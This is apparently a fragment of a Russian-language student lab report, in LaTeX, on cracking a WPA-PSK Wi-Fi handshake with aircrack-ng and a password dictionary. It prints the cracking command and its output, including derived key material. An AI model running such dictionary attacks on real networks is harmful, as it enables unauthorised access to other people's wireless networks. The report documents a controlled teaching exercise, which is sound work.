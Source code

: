 \documentclass[10pt,a4paper]{article}
\begin{document}
\paragraph{Произвести взлом используя словарь паролей}
~

Так как используемый пароль слишком сложный, в некоторую часть словаря был вставлен искомый пароль.

\begin{verbatim}
root@debian:~# aircrack-ng dump-05.cap -w English.dic 
Opening dump-05.cap


   #  BSSID              ESSID                     Encryption

   1  C0:C1:C0:D2:D2:20  -45                      WPA (1 handshake)



                                 Aircrack-ng 1.1


                   [01:01:31] 26024 keys tested (824.57 k/s)


                         Current passphrase: [ aumildar ]


      Master Key     : A2 93 AB 4B CC FB 32 5F CA BD A0 20 5F 10 00 B1 
                       E0 13 C5 50 73 7F 3D 09 5E B2 1E 1C 22 B7 2B 15 

      Transient Key  : 5B A5 01 18 6C E6 F1 80 32 59 3C 9C 76 FC 32 61
                       88 09 FF 8D F6 50 78 39 4E 71 17 0C CE 8E 74 25 
                       0A BE 5C D3 CB BB 34 5B E7 7D 01 A9 FE 9A B0 FE 
                       D0 26 11 5D AD 97 63 E7 4D 4E E1 36 9A F2 B2 07

      EAPOL HMAC     : 28 11 B1 64 6E  9D 99 45 B9 92 A3 44 F8 B2 86 60 
\end{verbatim}

\section{Выводы}

В ходе данной работы были изучены основные возможности пакеты Air Crack и принципы взлома WPA/WPA2 PSK.
\end{document}
